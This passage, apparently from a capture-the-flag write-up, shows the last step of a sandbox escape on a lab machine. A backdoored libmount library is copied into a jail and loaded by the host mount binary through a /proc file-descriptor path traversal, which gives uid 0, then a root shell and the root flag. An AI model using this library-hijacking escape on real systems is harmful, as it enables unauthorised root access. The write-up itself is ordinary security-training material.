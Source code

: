 We increment our uuid value so `sandbox` does not exit because the jail name exits. Then we run the sleep command first again and start `/bin/sh` in the sandbox with the incremented uuid.

```
clarence@scanned:/var/www/malscanner/sandbox$ UNIQUE=2; sleep 2; cp /tmp/evillib.so /var/www/malscanner/sandbox/jails/$UNIQUE/lib/libmount.so.1
```

Like before we run our prepared mount statement inside the sandbox again after the copy command finished. In the output we can see that the uid of the process running our function is now 0, indicating our backdoored code got executed successfully.

```
clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /bin/sh 2
$ /proc/1/fd/3/../../../../../../usr/bin/mount /dev/sda /tmp
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
mnt_init_debug got called !!
uid 0
mnt_new_context got called !!
mount: libmount context allocation failed: Success
$ Killed subprocess
Exited
```

Now we can simply drop into a root bash shell and add the root flag to our collection.

```
clarence@scanned:/var/www/malscanner/sandbox$ bash -p
bash-5.1# wc -c /root/root.txt
33 /root/root.txt
```
